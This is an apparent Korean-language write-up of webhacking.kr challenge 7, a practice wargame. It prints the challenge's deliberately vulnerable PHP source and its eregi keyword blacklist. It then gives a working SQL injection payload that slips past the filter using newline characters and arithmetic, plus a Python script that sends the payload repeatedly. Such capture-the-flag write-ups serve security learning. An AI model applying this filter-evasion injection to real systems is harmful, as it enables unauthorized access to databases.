 ================================================================================================================
[webhacking.kr] 07
================================================================================================================

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5;
        }
        step0 -> step1[label="val='+'1)%0aunion%0aselect%0a3-1%23)",arrowhead="normal"];
        step3 -> step2[label="select lv from lv1 where lv=('+'1)%0aunion%0aselect%0a3-1%23)",arrowhead="normal"];
    }

|

소스 분석
================================================================================================================

- GET 파라미터: val
- String
- information_schema.processlist

.. code-block:: php
    
    <html>
    <head>
    <title>Challenge 7</title>
    </head>
    <body>
    <!--
    db에는 val=2가 존재하지 않습니다.
    union을 이용하세요
    -->
    <?
    $answer = "????";

    $go=$_GET[val];

    if(!$go) { 
        echo("<meta http-equiv=refresh content=0;url=index.php?val=1>"); }

    $ck=$go;

    $ck=str_replace("*","",$ck);
    $ck=str_replace("/","",$ck);

    echo("<html><head><title>admin page</title></head><body bgcolor='black'><font size=2 color=gray><b><h3>Admin page</h3></b><p>");

    if(eregi("--|2|50|\+|substring|from|infor|mation|lv|%20|=|!|<>|sysM|and|or|table|column",$ck)) 
        exit("Access Denied!");

    if(eregi(' ',$ck)) { 
        echo('cannot use space'); 
        exit(); }

    $rand=rand(1,5);
    if($rand==1)
    {
        $result=@mysql_query("select lv from lv1 where lv=($go)") or die("nice try!");
    }
    if($rand==2)
    {
        $result=@mysql_query("select lv from lv1 where lv=(($go))") or die("nice try!");
    }
    if($rand==3)
    {
        $result=@mysql_query("select lv from lv1 where lv=((($go)))") or die("nice try!");
    }
    if($rand==4)
    {
        $result=@mysql_query("select lv from lv1 where lv=(((($go))))") or die("nice try!");
    }
    if($rand==5)
    {
        $result=@mysql_query("select lv from lv1 where lv=((((($go)))))") or die("nice try!");
    }

    $data=mysql_fetch_array($result);
    if(!$data[0]){ 
        echo("query error");
        exit(); }
    if($data[0]!=1 && $data[0]!=2) { 
        exit(); }
    if($data[0]==1)
    {
        echo("<input type=button style=border:0;bgcolor='gray' value='auth' onclick=alert('Access_Denied!')><p>");
        echo("<!-- admin mode : val=2 -->");
    }
    if($data[0]==2)
    {
        echo("<input type=button style=border:0;bgcolor='gray' value='auth' onclick=alert('Congratulation')><p>");
        @solve();
    } 
    </body>
    </html>

|

eregi 함수 우회
================================================================================================================

입력 부분이 $_GET[val]이고, 해당 입력값에 상관없이 랜덤하게 쿼리가 실행되는 것을 볼 수 있다.
eregi로 필터링되는 함수를 제외하여 rand가 1일 때 실행할 수 있는 쿼리문을 작성해보자.

.. code-block:: sql

    select lv from lv1 where lv=($_GET[val])

해당 소스 코드로 계속해서 request를 날리면 해결할 수 있다.

.. code-block:: python

    import requests

    url = "http://webhacking.kr/challenge/web/web-07/index.php?val='+'1)%0aunion%0aselect%0a3-1%23)"
    cookies = {
        "PHPSESSID":"9johqp6c81c5hf11lkomnghhn6"
    }
    
    r = requests.get(url, cookies = cookies, verify=False)

    print r.content
